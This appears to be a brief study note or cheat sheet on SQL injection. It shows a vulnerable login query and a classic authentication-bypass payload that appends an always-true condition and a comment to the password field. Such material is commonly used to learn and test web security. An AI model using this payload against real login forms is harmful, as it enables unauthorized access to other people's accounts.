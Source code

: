 ----------------------------------
# SQL Injection

## Authentication Bypass Variant 1
### query:
SELECT * FROM users WHERE username='admin' AND password='pass'

### payload:
username:admin
password:pass' OR 1=1 -- +

**NOTE:** + is similar to space